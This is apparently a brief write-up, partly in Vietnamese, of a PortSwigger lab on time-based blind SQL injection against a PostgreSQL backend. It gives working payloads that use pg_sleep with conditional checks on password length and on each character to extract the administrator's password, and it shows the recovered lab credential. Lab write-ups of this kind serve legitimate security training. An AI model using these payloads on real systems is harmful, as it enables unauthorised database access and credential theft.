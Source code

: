 # Target Goal: 

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user.

# Recon:

Check version db bằng cách up luôn payload vào và nó là PostgreSQL

![image](https://github.com/vanniichan/Portswigger/assets/112863484/3f5f228c-0be9-4835-92d2-b5b06592bba5)

Bài này sẽ brute-force password thông qua delay time

`' ||(SELECT CASE WHEN (LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')-- `

![image](https://github.com/vanniichan/Portswigger/assets/112863484/84177838-d74b-4ca3-b689-29c9322735f1)

Result trả về hơi lạ nên sửa lại sleep (-1) 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/50630dd4-29fc-4870-a534-7dc0e5209795)

`Brute-force password `' ||(SELECT CASE WHEN substr(password,1,1) ='a' THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator')-- `

![image](https://github.com/vanniichan/Portswigger/assets/112863484/c640403a-db41-4529-982e-c835e62dfc5a)

`administrator:k5bzdg7vw1l0urjr08n7`

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/4af6439d-99c1-48e7-9367-112c7738ef1e)
